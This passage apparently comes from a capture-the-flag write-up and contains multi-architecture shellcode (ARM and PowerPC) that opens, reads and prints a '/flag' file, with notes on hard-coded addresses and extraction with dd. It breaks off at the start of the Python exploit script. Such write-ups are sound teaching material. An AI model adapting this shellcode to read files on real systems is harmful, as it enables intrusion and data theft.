         svc #0

        mov r7, #1
        mov r0, #0
        svc #0

    filename:
        .string "/flag" 

We compiled this for ARMEL and ARMEB separately and used dd to copy out the text sections into raw binary files.

Our PPC shellcode is below. We had to hardcode the address of the BSS section of the provided binary by loading 0x1001 into r4, shifting it left 16 bytes, then loading the lower 2 bytes.

    shellcode:
        li      0, 5
        li      3, 0x41
        slwi    3, 3, 24
        addi    3, 3, (filename-shellcode+0x174)
        li      4, 0
        li      5, 0
        sc

        nop
        li      0, 3
        mr      3, 3
        li      4, 0x1001
        slwi    4, 4, 16
        ori     4, 4, 0x5a74
        li      5, 2048
        sc  

        nop
        mr      5, 3    
        li      0, 4
        li      3, 1
        li      4, 0x1001
        slwi    4, 4, 16
        ori     4, 4, 0x5a74
        sc  

        li      0, 1
        li      3, 0
        sc
        
    filename:
        .string "/flag"

We used a Python script to handle the assembly of the combined binary and the interaction with the server. `shellcode-ppc` was compiled manually on a different machine and moved over before each run. This is the script we used:

    import sys
    import os
    import time
    from sock import *
